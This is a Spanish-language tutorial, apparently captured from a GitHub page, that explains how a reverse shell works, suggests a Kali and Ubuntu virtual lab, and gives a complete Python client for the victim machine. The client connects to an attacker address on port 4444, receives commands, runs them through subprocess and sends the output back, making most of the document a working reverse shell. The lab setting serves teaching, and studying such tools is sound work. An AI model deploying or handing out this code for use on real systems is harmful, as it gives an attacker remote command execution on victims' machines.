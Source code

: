 
### 🧠 ¿Cómo funciona?

1. **La máquina atacante (escucha)** con un servidor TCP.
2. **La víctima se conecta** a la máquina atacante y redirige su entrada/salida de comandos.
3. El atacante puede ejecutar comandos en la máquina víctima como si estuviera en su terminal.

---

### 🧪 Entorno de pruebas (seguro y legal)

#### Puedes usar:

| Máquina       | Rol      | Recomendación                |
| ------------- | -------- | ---------------------------- |
| Kali Linux    | Atacante | Kali en VirtualBox o VMware  |
| Ubuntu/Debian | Víctima  | Máquina virtual sin firewall |

💡 Ambas máquinas deben estar en **la misma red local o virtual** (por ejemplo, en modo **red interna** de VirtualBox).

---

### 🐍 Código Python: Reverse Shell

#### 🔁 Cliente (Víctima) - Se conecta al atacante

```python
# reverse_shell_client.py
import socket
import subprocess
import os

def reverse_shell():
    host = '192.168.1.10'  # IP del atacante
    port = 4444            # Puerto de escucha

    s = socket.socket()
    try:
        s.connect((host, port))
        s.send(b'[+] Conectado a la shell\n')
        while True:
            comando = s.recv(1024).decode()
            if comando.lower() == 'exit':
                break
            if comando.startswith('cd '):
                try:
                    os.chdir(comando[3:].strip())
                    s.send(b'Directorio cambiado\n')
                except Exception as e:
                    s.send(f'Error: {str(e)}\n'.encode())
            else:
                resultado = subprocess.getoutput(comando)
                s.send((resultado + '\n').encode())
        s.close()
    except Exception as e:
        print(f"[!] Error al conectar: {e}")

if __name__ == '__main__':
    reverse_shell()
```

---